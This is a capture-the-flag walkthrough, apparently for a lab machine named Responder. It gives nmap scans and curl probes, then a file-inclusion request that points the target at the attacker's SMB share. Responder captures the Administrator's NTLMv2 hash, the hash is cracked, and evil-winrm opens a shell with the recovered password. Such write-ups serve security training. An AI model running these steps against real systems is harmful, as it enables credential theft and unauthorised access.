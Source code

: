 # Responder

## Victim IP

`export target="10.129.197.73"`

## Attacker IP

`export attacker="10.10.14.94"`

## Open ports

```
sudo nmap -Pn -p- -sS -T4 ${target}                                                                                                                                                                  130 ⨯
[sudo] password for edward: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-19 22:22 EST
Stats: 0:01:30 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 41.96% done; ETC: 22:26 (0:02:06 remaining)
Nmap scan report for 10.129.197.73
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 149.78 seconds
```

## Enumerate open ports

```
nmap -Pn -p80,5985,7680 -sC -sV ${target}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-19 22:28 EST
Nmap scan report for 10.129.197.73
Host is up (0.0099s latency).

PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```

## Task 1

```
curl http://${target} 
<meta http-equiv="refresh" content="0;url=http://<REDACTED>/"> 
```

## Task 2

```
curl -I http://${target}                                                                                                                                                                             139 ⨯
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 03:32:54 GMT
Server: Apache/2.4.52 (Win64) OpenSSL/1.1.1m <REDACTED>
X-Powered-By: <REDACTED>
Content-Type: text/html; charset=UTF-8

```

## Task 3

`Explore the website, you'll find it easily`


## Task 4

`http://<REDACTED>.htb/index.php?<REDACTED>=<REDACTED>`

## Task 5

## Task 6

`google is your friend here`

## Task 7

Check the help menu of responder: `responder -h`

## Task 8

`google is your friend here`

## Task 9

- Start responder
- On the victim website, perform an smb request to a non-existent file: `http://<REDACTED>.htb/index.php?<REDACTED>=//10.10.14.94/idontexist`
- Back in the responder window, we should see the ntlm challenge hash
  ```
  [+] Listening for events...                                                                                                                                                                                    

  [SMB] NTLMv2-SSP Client   : 10.129.197.73
  [SMB] NTLMv2-SSP Username : RESPONDER\Administrator
  [SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:<REDACTED>:<REDACTED>:<REDACTED>
  ```
- Submit hash to password cracker
- Retrieve password

## Task 10

`Check nmap output`

## Submit flag

Connect to the victim box using evil-winrm:

```
evil-winrm -i ${target} -u Administrator                                                                                                                                                               1 ⨯
Enter Password: 

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Search for the flag and submit

